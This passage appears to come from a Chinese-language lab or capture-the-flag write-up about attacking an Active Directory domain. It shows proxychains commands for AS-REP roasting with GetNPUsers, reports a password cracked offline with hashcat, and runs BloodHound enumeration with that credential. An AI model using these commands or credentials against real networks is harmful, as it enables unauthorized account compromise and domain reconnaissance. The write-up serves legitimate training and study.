 ## AS—REP Roasting

使用`GetNPUsers`查找不需要 Kerberos 预身份验证的用户

```bash
proxychains python3 GetNPUsers.py -dc-ip 172.22.60.8 -usersfile flarum_users.txt xiaorang.lab
```

[![](assets/1706846898-896aa413866884f6715eecc108ac0a52.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214038-51b9a3b2-c03e-1.png)

接下来用 hashcat 离线爆破两组用户，可得到一组用户密码

```bash
wangyun@XIAORANG.LAB::Adm12geC
```

导入 BloodHound

```bash
proxychains bloodhound-python -u wangyun -p Adm12geC -d xiaorang.lab -c all -ns 172.22.60.8 --zip --dns-tcp
```

[![](assets/1706846898-88de495d794d0c074af06fdbffd263b9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214045-559c6442-c03e-1.png)
